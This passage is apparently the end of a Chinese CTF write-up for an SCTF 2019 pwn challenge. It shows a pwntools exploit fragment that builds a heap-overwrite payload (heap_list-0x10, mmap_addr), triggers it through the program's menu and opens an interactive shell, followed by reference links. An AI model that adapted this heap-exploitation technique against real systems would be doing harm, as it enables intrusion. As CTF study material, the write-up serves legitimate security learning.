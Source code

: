 ```py
edit(3,payload+'\n')



##
payload = p64(0)*2 + p64(0xf8) + p64(heap_list-0x10)
payload += p64(mmap_addr) * 10

edit(0,payload+'\n')


##trigger
gdb.attach(p)
p.recvuntil(">> ")
p.sendline('1')
p.recvuntil("Size: ")
p.sendline('1')


p.interactive()

```

## 参考资料

[SCTF官方writeup](https://www.xctf.org.cn/media/writeup/SCTF-Write-Up/site/sctf-wp/)

[安全客](https://www.anquanke.com/post/id/168802#h3-3)

[x3h1n](https://x3h1n.github.io/2019/06/24/SCTF2019-pwn/#more)

